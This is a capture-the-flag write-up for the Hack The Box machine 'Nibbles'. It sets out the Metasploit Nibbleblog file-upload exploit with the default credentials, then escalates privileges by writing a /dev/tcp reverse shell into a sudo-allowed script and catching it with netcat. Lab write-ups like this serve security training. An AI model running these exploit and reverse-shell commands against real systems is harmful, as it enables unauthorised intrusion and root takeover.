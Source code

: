 # Nibbles
## Nmap Scan Result:

![scan](https://github.com/bugkay101/HTB/assets/149082141/d27c7cdf-305c-4ee6-885f-c26802c65d77)

After accessing web server on port 80:

![nibble1](https://github.com/bugkay101/HTB/assets/149082141/f3359847-3395-4595-86ce-4ebfd4313863)

Viewing the page source we find an interesting directory ```/nibbleblog```

![source](https://github.com/bugkay101/HTB/assets/149082141/55084753-b69b-4612-aff7-4446d96921c9)

After Checking metasploit "nibbleblog" seems to be vulnerable to a file upload exploit.

![exploit1](https://github.com/bugkay101/HTB/assets/149082141/dc3c97a6-f3df-4378-9c1e-02b2f1301323)

run ```use 0``` to use the exploit

set ```RHOST``` to the target IP

set ```LHOST``` to your HTB VPN IP

set ```TARGETURI``` to ```/nibbleblog```

set ```USERNAME``` to admin

set ```PASSWORD``` to nibbles

run ```exploit``` to start the exploit

Now we have a meterpreter session

![meterpreter](https://github.com/bugkay101/HTB/assets/149082141/d289856b-ebca-420c-bd9e-d16c801b1cd4)

We can find our user flag in ```/home/nibbler```

![flag1](https://github.com/bugkay101/HTB/assets/149082141/35968c2d-9ca5-4e5a-9e9b-15bf7a7b1001)

user flag: 79c03865431abf47b90ef24b9695e148

Before we begin to escalate privileges let's change our meterpreter session to a shell session because a meterpreter doesn't support some key Linux commands. To do this just run ```shell``` in your meterpreter

Then run ```python3 -c "import pty; pty.spawn('/bin/bash')"``` to stabilize the shell.

Let's run ```sudo -l``` to see commands we can run sudo without password.

![sudo](https://github.com/bugkay101/HTB/assets/149082141/e71a8d56-071e-4a17-964b-af55ff1a5972)

We're allowed to run a script ```monitor.sh``` without password

We can find this script when we unzip the personal.zip file in the nibbler home directory.

![unzip](https://github.com/bugkay101/HTB/assets/149082141/9d4f9704-cfcc-4854-bdae-e2d6a5485e23)

We can find the script in ```/home/nibbler/personal/stuff``` so we ```cd``` into it.

Since we have read, write, and execute privileges to the monitor.sh we can write a reverse shell into it then execute it as sudo and hopefully we'll get root.

```echo "/bin/bash -l > /dev/tcp/<your HTB VPN>/4242 0<&1 2>&1" > monitor.sh```

For Some reason i was having issues running the ```monitor.sh``` script on our target so i had to write my own ```monitor.sh``` on my machine the sent it to our target using python http server.

![script](https://github.com/bugkay101/HTB/assets/149082141/e3851549-f76c-41d9-9f71-f9bd0d6be96d)

Now let's set our netcat to listen on port 4242 ```nc -lvp 4242``` (Do this on another terminal instance).

Now we can run ```sudo /home/nibbler/personal/stuff/monitor.sh```

Nice!! We have root privileges now

![root](https://github.com/bugkay101/HTB/assets/149082141/2912fb26-ea01-48cb-83ca-36087a9d2f27)

We can find the root flag ```root.txt``` in ```/root```

![flag2](https://github.com/bugkay101/HTB/assets/149082141/0a2851b5-a0d5-4104-a9bb-a630bec90d47)

root flag: de5e5d6619862a8aa5b9b212314e0cdd

